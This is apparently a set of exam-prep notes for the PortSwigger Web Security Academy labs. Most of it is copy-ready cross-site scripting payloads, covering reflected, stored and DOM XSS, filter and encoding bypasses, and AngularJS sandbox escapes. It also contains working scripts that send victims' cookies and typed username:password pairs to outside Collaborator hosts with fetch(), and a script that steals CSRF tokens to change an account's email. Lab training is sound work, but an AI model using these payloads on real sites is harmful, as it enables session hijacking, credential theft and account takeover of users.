 # DOM-Based XSS  Cross-site scripting

https://portswigger.net/web-security/all-labs#cross-site-scripting


### LAB: Reflected XSS into HTML context with nothing encoded

```
Enter the following into the search box: 
Payload : '</h1><script>alert(1)</script>
```

### Lab: Stored XSS into HTML context with nothing encoded
```
Enter the following into the comment box: 
 - Payload: comment=<script>alert(2)</script>
```



### Lab: DOM XSS in document.write sink using source location.search

A website takes something from the URL (like a search term),
And then shows it on the page using JavaScript,Without checking if it's safe.

✅ Two Important Parts:

1. Source – Where the user input comes from
   Example: location.search → This gives the part after ? in the URL.
   For example:
```
   https://example.com/page?name=hello
   location.search → "?name=hello"
```

2. Sink – Where the data is used/executed.
   Example: document.write() → This writes HTML to the page.
   If we use it directly with location.search, it can be dangerous.



Payload  : 
```
- ABC"><img src="a" onerror=alert(1)>
- ABC"><svg onload=alert(1)>
```



### Lab: DOM XSS in innerHTML sink using source location.search

Note : innerHTML we cannot insert any script tag.

Payload  : 
```
- <img src="a" onerror=alert(1)>
```


### Lab: DOM XSS in jQuery anchor href attribute sink using location.search source

Payload :
<a href="javascript:alert(document.cookie)">Click me</a>

```
javascript:alert(document.cookie)
```

### Lab: DOM XSS in jQuery selector sink using a hashchange event

```
<script>
    $(window).on('hashchange', function(){
        var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
        if (post) post.get(0).scrollIntoView();
        });
</script>
```
Payload :

```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```

### Lab: Reflected XSS into attribute with angle brackets HTML-encoded


when you're dealing with XSS (Cross-Site Scripting) and < or other tag-related characters (<, >) are filtered or encoded, you need to rely on tag-less or attribute-based payloads that don't require <script> or <img> tags to execute.

<a href="https://raw.githubusercontent.com/robin113x/BSCP-Exam/refs/heads/main/Payload/tagless_xss_payloads.txt">Tagless PAyloads</a>

```
" onmouseover="alert(1)
```

### LAB: Reflected XSS into a JavaScript string with angle brackets HTML encoded

When you’re dealing with Reflected XSS into a JavaScript string, and angle brackets < > are HTML-encoded or filtered, you can still exploit XSS without any HTML tags.

```
";alert(1);//         // closes quote and runs JS
'+alert(1)+'         // using concatenation
'-alert(1)-'         // works too
"/1/+alert(1)//      // division with alert
"/a/+alert(1)//      // forces type coercion
"+alert(1)+""        // string concat, safe from HTML filter
"+alert(String.fromCharCode(88,83,83))+"
```


### LAB: DOM XSS in document.write sink using source location.search inside a select element

payload:
```
product?productId=1&storeId="></select><img%20src=1%20onerror=alert(1)>
```

### LAB:  DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
$scope
$watch $ON $eval $emit $apply $digest
payload:
```
{{$on.constructor('alert(1)')()}}
{{$watch.constructor('alert(1)')()}}
```


### LAB: Reflected DOM XSS
payload:
```
\"-alert(1)}//
\"+alert(1)}//
\"&alert(1)}//
\"|alert(1)}//
```

### Lab: Stored DOM XSS
payload:
```
<><img src=1 onerror=alert(1)>
```


### Reflected XSS into HTML context with most tags and attributes blocked

<iframe src="https:///0af8005f03c81c828041176b003b001f.web-security-academy.net/?search=<body onresize=print()>" onload=this.style.width='100px'>



### Reflected XSS into HTML context with all tags blocked except custom ones

```
<robin onclick=alert(document.cookie)>
<robin onclick=alert(1)>

<script>
location = 'https://0a5400970474591680c31759002a0079.web-security-academy.net/?search=<robin id=x onfocus=alert(document.cookie) tabindex=1>#x';
</script>
```

### Lab: Reflected XSS with some SVG markup allowed
```
<svg id=x onbegin=alert(1)>
<svg><animatetransform onbegin=alert(1)>   
```
### LAB:  Reflected XSS in canonical link tag
```
In URL add at end : 
/?'accesskey='x'onclick='alert(1)
```


### Lab: Reflected XSS into a JavaScript string with single quote and backslash escaped
```
</script><script>alert(1)</script>

```

### Lab: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped
```
\'-alert(1)//
\'+alert(1)//
```

### Lab: Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped
```
http://robin.com/?&apos;-alert(1)-&apos;
http://robin.com/?&#39;+alert(1)+&#39;
http://robin.com/?&#x27;+alert(1)+&#x27;

```
### Lab: Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped

```
${alert(1)}
```

### Lab: Exploiting cross-site scripting to steal cookies

submit the following payload in a blog comment: 
payload
```
use Burp Collaborator :: 

<script>
fetch('https://m0nv6rd5ltolzbtmrjxa6vvz1q7hv7jw.oastify.com', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```
##### Alternative  Exploiting XSS to bypass CSRF defenses
```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

### Lab: Exploiting cross-site scripting to capture passwords
```

<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://ik6rqnx15p8hj7dibfh6qrfvlmrdf43t.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```


### Lab: Exploiting XSS to bypass CSRF defenses
```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```


https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#angularjs-dom--1.4.4-(without-strings)
toString().constructor.prototype.charAt=[].join; [1,2]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)


toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1



